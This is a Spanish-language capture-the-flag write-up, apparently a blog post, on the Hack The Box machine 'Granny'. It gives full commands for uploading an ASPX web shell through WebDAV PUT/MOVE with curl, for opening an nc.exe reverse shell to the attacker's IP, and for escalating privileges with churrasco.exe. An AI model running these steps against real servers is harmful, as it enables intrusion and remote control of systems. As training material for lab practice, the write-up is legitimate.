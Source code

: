 ```yaml
---
title: Granny - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad ```Webdav``` que nos permitirá llevar a cabo un ```RFI``` (Remote File Inclusion)

## **Reconocimiento**

Utilizaremos la herramienta ```nmap``` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto ```80``` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto ```80``` se ha detectado un ```Webdav``` además de un ```IIS``` (Servidor web que maneja solicitudes HTTP y HTTPS)

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de ```Webdav``` que nos permite mediante ```curl``` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** ```(cmdasp.aspx)```

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
```

> Subiremos el archivo en formato ```.txt``` ya que no podremos en formato ```.aspx```

Una vez el archivo ya subido aprovecharemos el metodo ```MOVE``` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt 
```

> Utilizaremos la cabecera ```Destination``` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el ```nc.exe```

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe . 
```

Utilizaremos ```impacket-smbserver``` para establecer una conexión por ```smb``` y así poder compartir el archivo ```nc.exe``` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante ```nc.exe```

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

A su vez en nuestra máquina nos pondremos en escucha por el puerto ```443```

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es ```SeImpersonatePrivilege```

> Este permiso es único en Windows, y permite a un usuario o proceso hacerse pasar por otro usuario o proceso

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a <https://github.com/Re4son/Churrasco/raw/master/churrasco.exe> y descargaremos el ejecutable ```churrasco.exe``` *(xd)*

Utilizando el ```impacket-smbserver``` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a ```C:\WINDOWS\temp``` y en esta ruta usaremos el comando:

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos ```churrasco.exe```

```bash
churrasco.exe

/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```

Vemos la función del ejecutable, por lo que intentaremos conseguir una shell como ```root```, así que deberemos usar ```nc.exe```:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con ```nc``` por el puerto ```443```:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver ambas **flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
